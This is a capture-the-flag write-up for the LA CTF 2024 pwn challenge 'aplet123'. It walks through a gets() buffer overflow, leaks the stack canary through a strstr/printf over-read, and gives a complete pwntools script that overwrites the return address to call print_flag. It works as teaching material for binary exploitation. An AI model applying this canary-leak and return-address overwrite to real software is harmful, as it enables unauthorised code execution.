 +++
title = 'LA CTF 2024 - pwn/aplet123'
date = 2024-02-21T17:20:12-05:00
draft = false
+++

We are given a binary and source code. Taking a look at the source code:


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

```sh
checksec --file=aplet123 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   49 Symbols        No    0               3               aplet123
      
```

And taking a look at the binary with checksec we see that we have PIE turned off but we have a stack canary.


```c
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
```

We see that we are using gets which gives us a buffer overflow. Remeber that strstr retrusns a pointer to the first occuraence of the sequence we are seraching for. So if our input contains 'i'm' at the end, then we can read past the buffer and this lets us leak the canary.


```python
target.sendline("A" * 69 + "i'm")
target.recvuntil("hi ")
canary = target.recv(7)
```

Recall that the least significant bit of the canary is a null byte. I believe this is to prevent the canary from being leaked if for example it is next to a string that is not null terminated in memroy that is being read.


Now that we have the canary,  we need to use the buffer overflow to overwrite the saved return address. 

Complete solve script:

```python
from pwn import *
context.log_level = "DEBUG"

printflag_addr = 0x4011e6


target = remote("chall.lac.tf", 31123)

target.recvuntil("hello")

target.sendline("A" * 69 + "i'm")

target.recvuntil("hi ")
canary = target.recv(7)

payload = b"A" * 72
payload += b'\x00' + canary
payload += b"A" * 8
payload += p64(printflag_addr)

target.sendline(payload)
target.sendline('bye')

target.interactive()
```

```sh
lactf{so_untrue_ei2p1wfwh9np2gg6}
```